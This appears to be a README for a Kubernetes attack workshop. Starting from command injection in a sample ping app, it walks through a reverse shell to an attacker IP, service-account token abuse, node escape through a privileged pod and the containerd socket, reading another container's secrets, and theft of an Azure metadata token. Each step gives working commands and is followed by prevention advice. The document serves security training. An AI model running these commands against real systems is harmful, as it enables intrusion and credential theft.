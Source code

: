 # Hijack Kubernetes Hands-on

## Play with the sample app

The sample app "ping me" pings a destination provided via the input field. Try the folloing inputs:

```bash
127.0.0.1

127.0.0.1; echo "I was here"

; which bash
```

<details>
<summary>Details on how to input the snippets</summary>

1. Let's try to inject a command after the IP address: `127.0.0.1; echo "I was here"`. As you see in the responce it worked.
2. Now we try whether `bash` is available: `; which bash`. And it is! Looks like we could try to hijack the container.

</details>

<details>
<summary>How to prevent this attack</summary>

* Shift security left and enable [SAST scanning](https://owasp.org/www-community/Source_Code_Analysis_Tools)
* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)

</details>

## Hijack the container

We now inject into the container via a reverse shell. Try the following:

On your attacker machine:

```bash
sudo nc -lnvp 80
```

Input for the app (change your IP):

```bash
; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'
```

<details>
<summary>Details on how to hijack the container</summary>

1. We will open a connection on our attacker machine using netcat: `sudo nc -lnvp 80`
2. Now we inject the required command into our container. This allow us to connect a reverse shell to our open connection: `; bash -c 'bash -i >& /dev/tcp/20.86.25.78/80 0>&1'`.
3. And finally, we have a reverse shell up and running. Try some commands like `ls`

</details>

<details>
<summary>How to prevent this attack</summary>

* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)
* Deny egress network access on a network level as well as using [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
* Detect untrusted process with container runtime security tools like [Falco](https://github.com/falcosecurity/falco)

</details>

## Get access to the Kubernetes API

Let's see if we can access the API Server. Execute the following snippets:

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api

NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/

kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

<details>
<summary>Details on how to access the Kubernetes API server</summary>

Let's see if we can access the API Server.
```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api
```

It looks like we were able to authenticate and do have some access. Let's try whether we have access to see other pods in our namespace:

``` bash
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods
```

This looks good! Let's install `kubectl` for easier access:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

Let's see what we are allowed to do:

```bash
kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Do not share service accounts between applications
* Do not enable higher access levels for the default service account (this app would not have needed it!)
* Review all third-party snippets before deploying them
* Use read-only filesystems
* Deny running root containers (Tools like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) and [Kyverno](https://github.com/kyverno/kyverno) can help)
* Things we already talked about
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack the Kubernetes Node

Let's try one more thing. Are we able to schedule a privileged pod and "talk" to containerd? Execute the following snippets:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF

kubectl exec -it -n default privileged-pod /bin/bash

apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list

```

<details>
<summary>Details on how to hijack the node</summary>

Let's try to schedule a priviledged pod and try to "talk" to containerd:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF
```

Then we need to attach to the pod:

```bash
kubectl exec -it -n default privileged-pod /bin/bash
```

Now we can try to install some basics as well as the containerd CLI and talk to the containerd socket:

```bash
apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Do not share service accounts
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Access secrets from another container

We will now try to retrieve secrets from a container we do not have access to (via Kubernetes):

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "13f21f8cb8c85084bc9a3ddf98ecae31de1e5255363bd3a9c9ed50528106676c" | awk '{print $1}')

ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

<details>
<summary>Details on how to access the secrets</summary>

We will use the containerd cli to access details of a container running on this nodes.

First we will retrieve the container ID:

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "13f21f8cb8c85084bc9a3ddf98ecae31de1e5255363bd3a9c9ed50528106676c" | awk '{print $1}')
```

And then request container runtime details like environemnt variables:
```bash
ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

We could now use the database connection secret to access the database.

</details>

<details>
<summary>How to prevent this attack</summary>

* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Limit egress access to other cloud resources
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack Cloud resources

We can also use the underlying cloud identity and try to escape even further. Execute the following snippet to get a valid Cloud provider token:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)
```

<details>
<summary>Details on how to retrieve a Cloud provider token</summary>

First of all we need to mount the local node filesystem to access underlying identity id:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp
```

We now can retrieve the used Cloud identity and request a valid token using the Cloud metadata service:

```bash
IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny access to the Cloud provider metadata service using Network Policies (all Cloud providers!)
* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
